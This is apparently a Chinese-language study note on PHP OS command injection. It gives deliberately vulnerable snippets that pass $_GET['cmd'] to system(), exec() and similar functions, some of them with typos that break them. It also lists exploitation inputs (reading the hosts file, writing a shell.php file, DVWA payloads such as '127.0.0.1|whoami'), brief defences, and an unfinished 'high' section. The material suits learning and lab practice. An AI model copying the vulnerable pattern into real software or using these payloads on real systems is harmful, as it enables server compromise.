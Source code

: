 # 命令注入

## 原理以及成因

程序员使用脚本语言（比如PHP）开发应用程序过程中，脚本语言开发十分快速、简洁、方便但是也伴随着一些问题，比如说速度慢，或者无法接触系统底层，如果我们开发的应用，特别是企业级的一些应用需要去调用一些外部程序(系统命令或者exe等可执行文件)。当应用需要调用一些外部程序时就会用到一些系统命令的函数。

应用再调用这些函数执行系统命令的时候，如果将用户的输入作为系统命令的参数拼接到命令行中，在没有过滤用户的输入的情况下，就会造成命令执行漏洞。
1. 用户输入进行拼接
2. 没有足够的过滤

## 漏洞危害

1. 继承Web服务器程序权限（Web用户权限），去执行系统命令
2. 继承Web服务器权限，读写文件
3. 反弹Shell
4. 控制整个网站
5. 控制整个服务器

相关函数
- system()
system()能够将字符串作为os命令执行，自带输出功能。测试代码如下：
```
<meta charset='gb2312'>
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    system($_GET['cmd']);
}else{
    echo"
    ?cmd=ipconfig
    ";
}
?>
```

- exec()

exec()函数能将字符串作为OS命令执行，需要输出执行结果。测试代码如下
```
<meta charset="gb2312">
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    print exec($_GET['cmd']);
}else{
    echo"
    ?cmd=whoami
    ";
}
?>
```

- shell_exec()
```
<?php
if(isset($_Get['smd'])){
  print shell_exec($_GET['cmd']);
}else{
    echo"?cmd=whoami";
}
?>
```

- passthru
```
<?php
if(isset($_GET['cmd'])){
    passthru($_GET['cmd']);
}else{
    echo"?cmd=whoami";
}
?>
```

- popen()

popen()也能够执行OS命令，但是该函数并不是返回命令结果，而是返回一个文件指针。无论返回什么，我们关心的是命令执行。
```
<?php
if(isset($_GET[''cmd])){
    $cmd=$_GET['cmd'].">>1.txt";
    popen($cmd,'r');
}else{
    echo"?cmd=whoami";
}
?>
```

- 反引号`

```
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    print `$cmd`'
}else{
    echo"?cmd=whoami";
}
?>
```

# 漏洞利用

OS命令注入漏洞，攻击者直接继承Web用户权限，再服务器上执行任意命令，危害特别大。以下命令均在windows系统下测试成功。

- 查看系统文件
提交参数[?cmd=type c:\windows\system32\drivers\etc\hosts],查看系统hosts文件。

- 显示当前路径
提交参数[?cmd=cd]

- 写文件
提交参数[?cmd=echo "<?php phpinfo();?>" >D：、xampp\htdocs\Commandi\shell.php]

页面没有报错。说明文件写入成功。访问shell.php文件

## 防御方法

1. 尽量减少命令执行函数的使用，并在disable_functions中禁用
2. 再进入命令执行的函数或方法之前，对参数进行过滤
3. 参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义

DVWA  命令注入
low
  127.0.0.1| whoami
  127.0.0.1|whoami
  127.0.0.1&&whoami
  127.0.0.1;whoami
  127.0.0.0.1||whoami

medium
  127.0.0.1| whoami
  127.0.0.1|whoami
  127.0.0.0.1||whoami

high
  